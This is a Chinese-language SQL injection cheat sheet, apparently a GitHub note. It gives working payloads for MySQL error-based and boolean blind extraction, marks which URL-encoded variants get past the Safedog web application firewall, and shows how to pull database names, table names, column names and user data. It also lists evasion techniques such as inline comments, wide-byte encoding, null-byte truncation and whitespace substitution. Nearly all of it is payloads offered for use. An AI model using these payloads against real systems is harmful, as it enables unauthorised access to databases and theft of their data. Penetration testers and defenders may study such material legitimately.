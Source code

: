 # sql注入的语句

```txt
111' or length(SYS_CONTEXT('USERENV', 'CURRENT_USER')) = 5 or 'x' ='y
1%27 and(select 1 FROM(select count(*),concat((select (select concat(md5(1),0x27,0x7e)) FROM information_schema.tables LIMIT 0,1),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a)--


```

## 绕过安全狗

```txt

先判断是否存在注入
1' and 1=1--+      # 拦截
1' or 1=1--+       # 拦截
1' && 1--+         # 拦截
1' || 1--+         # 拦截
xor 1--+
使用url对&&和||编码可以绕过拦截
1' %26%26 True--+      # 不拦截
1' %26%26 false--+     # 不拦截
1' %7c%7c True--+      # 不拦截
1' %7c%7c false--+     # 不拦截

这三个来判断
xor 1--+
1' %26%26 True--+
1' %26%26 false--+


判断数据库的长度：'%26%26 (length(/*!database*/())=1)--+
判断数据库的名称：'%26%26 (ascii(substr((/*!database*/()),1,1))>64)--+
获取用户长度：'%26%26 (length(/*!USER*/())=14)--+  # 绕过
获取版本信息：' %26%26 (ascii(@@version)=53)--+

获取数据库的表数量:
' %26%26 (0<(select count(/*!table_name*/) from information_schema.tables where table_schema=DBname))--+

获取数据库的表名,这个语句拦截出在select xx from,一般出现select xx from都会被拦截，思路可以想上面的获取数量一样，使用一个函数将xx包起来，尝试一下:
' %26%26 (0< ascii((select substr(/*!table_name*/,1,1) from information_schema.tables where table_schema=DBname limit 0,1))) --+    # 不拦截
' %26%26 (0x65 = (select substr(/*!table_name*/,1,1) from information_schema.tables where table_schema=0x7365637572697479 limit 0,1)) --+    # 不拦截

获取数据库的字段
' %26%26 (0< ascii((select substr(/*!column_name*/,2,1) from information_schema.columns where table_schema = 0x7365637572697479 %26%26 table_name = 0x7573657273 LIMIT 1,1)))--+
' %26%26 (0<ascii(substr((select group_concat(/*!column_name*/) from information_schema.columns  where table_schema=0x7365637572697479 %26%26 table_name=0x7573657273),1,1))) --+

获取数据
' %26%26 (0<ascii(substr((SELECT group_concat(/*!username*/) FROM `security`.`users`),1,1))) --+

```

sql注入相同功能的函数

```txt
Sql注入截取字符串常用函数  -- mid,substr,left
SQL注入返回字符串的ascii码 -- ord和ascii

```

绕过思路：

1. 特殊字符使用加密，除了使用URL编码外，还可以使用其他的编码方式进行绕过尝试，例如Unicode编码，Base64编码，Hex编码，ASCII编码等，原理与URL编码类似。
2. 在使用数据库的值时，可以直接用16进制：information_schema.columns  where table_schema=0x7365637572697479 %26%26 table_name=0x7573657273
3. 在mysql中 /*! ....*/ 不是注释，mysql为了保持兼容，它把一些特有的仅在mysql上用的语句放在/*!....*/中，这样这些语句如果在其他数据库中是不会被执行，但在mysql中它会执行
4. 字母大小写转换绕过
5. 双关键字绕过
6. 请求方式差异规则松懈性绕过
7. 异常Method绕过
8. 超大数据包绕过
9. 宽字节绕过：?id=1%df%27and 1=1--+
10. %00截断
11. 空格过滤绕过


```txt
a)   使用空白符替换空格绕过
b)  使用‘+’替换空格绕过
c)   使用注释符/**/替换空格绕过
数据库类型      允许的空白符
SQLite3         0A，0D，0C，09，20
MySQL5          09，0A，0B，0C，0D，A0，20
PosgresSQL      0A，0D，0C，09，20
Oracle 11g      00，0A，0D，0C，09，20
MSSQL           01，02，03，04，05，06，07，08，09，0A，0B，0C，0D，0E，0F，10，11，12，13，14，15，16，17，18，19，1A，1B，1C，1D，1E，1F，20
```
